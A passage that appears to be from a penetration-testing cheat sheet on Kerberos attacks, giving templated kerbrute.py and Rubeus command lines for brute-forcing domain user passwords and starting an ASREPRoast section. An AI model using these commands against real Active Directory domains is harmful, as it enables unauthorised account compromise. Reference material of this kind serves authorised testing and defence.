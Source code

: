 ### Step 5

![](<../../../.gitbook/assets/imagen (8).png>)

## Bruteforcing

> Requirements: connection with DC/KDC.

### Linux (external)

With [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute):

```
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```

### Windows (internal)

With [Rubeus](https://github.com/Zer1t0/Rubeus) version with brute module:

```
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```

## ASREPRoast

> Cracking users password, with KRB\_AS\_REQ when user has DONT\_REQ\_PREAUTH attribute, KDC respond with KRB\_AS\_REP user hash and then go for cracking.
